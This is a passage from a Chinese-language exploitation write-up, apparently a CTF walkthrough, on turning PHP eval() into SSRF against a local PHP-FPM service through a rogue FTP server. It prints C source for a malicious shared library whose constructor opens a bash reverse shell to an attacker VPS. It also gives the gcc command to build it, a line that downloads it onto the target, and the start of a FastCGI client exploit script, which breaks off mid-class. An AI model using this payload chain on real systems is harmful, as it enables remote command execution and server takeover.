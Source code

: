 好了，既然我们可以通过 eval() 执行任意代码，那我们便可以构造恶意代码进行 SSRF，利用 SSRF 攻击本地的 PHP-FPM。我们可以通过在 vps 上搭建恶意的 ftp，骗取目标主机将 payload 转发到自己的 9001 端口上，从而实现攻击 PHP-FPM 并执行命令，原理上文已经讲过了。

首先使用以下 c 文件 hpdoger.c 编译一个恶意的 .so 扩展，这里直接用网上亘古不变的写法：

```bash
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1'");
}
```

通过 shared 命令编译：

```bash
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

[![](assets/1698897074-dea91a158b9d1001fb69cdf76bb694f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-960b1ee2-b2e5-1.png)

然后将生成的 hpdoger.so 上传到目标主机（我这里上传到 /tmp 目录，可以使用 `copy('http://vps/hpdoger.so','/tmp/hpdoger.so')` ）

然后简单修改以下脚本（根据 [fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php) 改的）并执行，生成 payload：

```bash
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
```